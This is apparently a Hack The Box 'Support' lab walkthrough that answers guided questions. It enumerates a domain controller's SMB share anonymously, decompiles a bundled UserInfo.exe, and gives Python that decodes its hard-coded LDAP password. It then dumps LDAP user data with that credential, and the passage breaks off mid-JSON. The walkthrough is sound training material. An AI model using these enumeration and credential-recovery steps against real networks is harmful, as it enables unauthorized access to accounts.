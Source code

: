 Q2: Which share is not a default share for a Windows domain controller?
- non-default share is the `support-tools` share

Q3: Almost all of the files in this share are publicly available tools, but one is not. What is the name of that file?
- use `smbclient` to communicate with the SMB server
```
$ smbclient //10.10.11.174/support-tools -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 10:01:06 2022
  ..                                  D        0  Sat May 28 04:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 04:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 04:19:55 2022
  putty.exe                           A  1273576  Sat May 28 04:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 04:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 10:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 04:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 04:19:43 2022

                4026367 blocks of size 4096. 970421 blocks available
```
- the file that is not publicly available is `UserInfo.exe.zip`
Q4: What is the hardcoded password used for LDAP in the UserInfo.exe binary?
- used `dnSpy` for decompiling the program
- unzip the program folder and load the executable program to `dnSpy`
![[LdapQuery.png]]
- there's a interesting function called `getPassword()`
- this function taking in a hard-coded password string `enc_password` and decrypts using a key `armando`
- below is python code that decrypts the password
```
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"
decoded = base64.b64decode(enc_password)

decrypted = []
for i in range(len(decoded)):
    decrypted_byte = decoded[i] ^ key[i % len(key)] ^ 223
    decrypted.append(decrypted_byte)

password = bytes(decrypted).decode('ascii', errors='ignore')
print(password)
```
- `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz` is the plaintext
Q5: Which field in the LDAP data for the user named support stands out as potentially holding a password?
- run `ldapdomaindump ldap://support.htb -u "support\\ldap" -p "nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz"`
- which generates a plethora of files 
- below is `domain_users.json`, which contains the password for user support in the `info` field
```
,{
    "attributes": {
        "accountExpires": [
            "9999-12-31 23:59:59.999999+00:00"
        ],
        "badPasswordTime": [
            "1601-01-01 00:00:00+00:00"
        ],
        "badPwdCount": [
            0
```
